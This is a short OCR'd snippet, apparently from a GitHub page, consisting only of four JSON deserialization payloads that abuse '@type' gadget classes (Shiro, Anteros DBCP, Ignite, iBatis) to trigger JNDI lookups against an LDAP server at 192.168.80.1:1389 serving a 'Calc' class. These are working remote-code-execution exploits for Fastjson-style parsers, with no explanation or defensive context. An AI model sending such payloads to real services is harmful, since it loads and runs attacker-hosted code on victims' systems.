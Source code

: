```
{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://192.168.80.1:1389/Calc"}
{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://192.168.80.1:1389/Calc"}
{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://192.168.80.1:1389/Calc"}
{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransacti
on":"ldap://192.168.80.1:1389/Calc"}}
```